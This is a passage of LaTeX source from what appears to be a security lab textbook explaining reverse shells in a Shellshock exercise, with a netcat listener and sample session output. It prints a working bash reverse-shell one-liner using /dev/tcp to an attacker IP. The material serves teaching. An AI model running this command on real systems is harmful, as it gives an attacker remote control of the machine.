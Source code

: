 The key idea of reverse shell is to redirect its standard input, output, and error devices to a
network connection, so the shell gets its input from the connection, and prints out its output
also to the connection. At the other end of the connection is a program run by the
attacker; the program simply displays whatever comes from the shell at the other end,
and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is
\texttt{netcat}, which, if running
with the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the
specified port. This server program basically prints out whatever is sent by the client, and
sends to the client whatever is typed by the user running the server.
In the following experiment, \texttt{netcat} (\texttt{nc} for short) is used
to listen for a connection on port \texttt{9090}~(let us focus only on the first line).


\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}


The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following \bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via the Shellshock attack. 
This \bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the \bash command:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


